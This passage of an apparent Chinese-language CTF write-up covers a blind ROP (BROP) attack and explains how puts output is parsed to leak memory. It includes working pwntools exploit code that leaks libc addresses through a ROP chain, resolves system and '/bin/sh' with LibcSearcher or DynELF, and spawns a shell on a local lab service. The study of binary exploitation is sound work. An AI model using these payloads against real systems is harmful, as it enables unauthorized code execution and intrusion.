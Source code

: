 
由于 puts 函数通过 \x00 进行截断，不会输出 \ x00，并且会在每一次输出末尾加上换行符 \ x0a ，所以有一些特殊情况需要做一些处理，比如单独的 \x00 、 \x0a 等。首先当然是先去掉末尾 puts 自动加上的 \n ，然后如果 recv 到一个 \n ，说明内存中是 \x00 ，如果 recv 到一个 \n\n ，说明内存中是 \ x0a 。 p.recv(timeout=0.1) 是由于函数本身的设定，如果有 \n\n ，它很可能在收到第一个 \n 时就返回了，加上参数可以让它全部接收完。

7. 得到二进制文件后就是常规操作了，利用 Dynelf 或者 LibcSearcher 和 puts 函数找到 system 函数和 binsh 实际位置，之后通过 pop rdi;ret 来为 system 函数赋参数从而 getshell。

```
#注释头
 
sh = remote('127.0.0.1', 10001)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
puts_addr = u64(data.ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
system_addr) + p64(stop_gadget)
sh.sendline(payload)
sh.interactive()

```

这里的 libcSearcher 有时候不太好用，查到的 libc 不符合，或者是不对。还是 DynElf 好用一些，比较准确，并且由于是 puts 函数打印，所以可能需要单个字符来判断。但实际上 64 位条件下的 got 表中的地址一定是 0x00007fxxxxxxxxxx，所以如果是大端情况，那么 puts 函数一定会截断，接收到的只会是 xxxxxxxxxx7f 和 0a 所以其实只要判断到换行符的时候就可以。

```
#注释头
 
def leak(address):
    data = ""
    c=""
    up = ""
    payload = 'a' * length + p64(rdi_ret) + p64(address) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.send(payload)
    while True:
        c = p.recv(1)
        if up == '\n' and c == "W":  
            data = data[:-1]                     
            data += "\x00"
            break
        else:
            data += c
        up = c
    data=data[:7]#实际有效地址只有6个字符
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data
 
 
dynelf = DynELF(leak, elf=ELF("./brop"))
system_addr = dynelf.lookup("__libc_system", "libc")

```

